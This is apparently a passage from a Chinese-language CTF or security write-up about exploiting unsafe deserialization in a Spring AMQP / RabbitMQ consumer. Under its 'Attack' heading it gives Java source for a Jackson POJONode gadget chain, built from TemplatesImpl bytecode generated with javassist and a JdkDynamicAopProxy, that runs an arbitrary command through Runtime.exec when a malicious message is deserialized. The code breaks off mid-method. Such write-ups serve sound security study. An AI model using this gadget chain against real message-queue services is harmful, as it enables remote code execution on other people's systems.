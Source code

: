 一些基本类就没有检测了，对反序列化的类进行了模式匹配，不过默认这个`allowedListPatterns`为空

## Attack

看到这应该就很显然了，打Jackson的链子，生产者直接往RabbitMQ里写恶意类对象，消费者读取后会触发反序列化。

```java
package com.demo.producer.controller;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.springframework.aop.framework.AdvisedSupport;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;

public class Gadget {
    private static int count = 0;
    public static Object getPayload(String cmd) throws Exception {
        POJONode node = new POJONode(makeTemplatesImplAopProxy(cmd));
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        setFieldValue(val, "val", node);
        count += 1;
        return val;
    }
    public static Object makeTemplatesImpl(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a" + count);
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("{Runtime.getRuntime().exec(\"" + cmd + "\");" +
                "throw new org.springframework.amqp.AmqpRejectAndDontRequeueException(\"err\");}");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", bytes);
        setFieldValue(templates, "_name", "test");
        setFieldValue(templates, "_tfactory", null);
        return templates;
    }
    public static Object makeTemplatesImplAopProxy(String cmd) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(makeTemplatesImpl(cmd));
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        return proxy;
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
```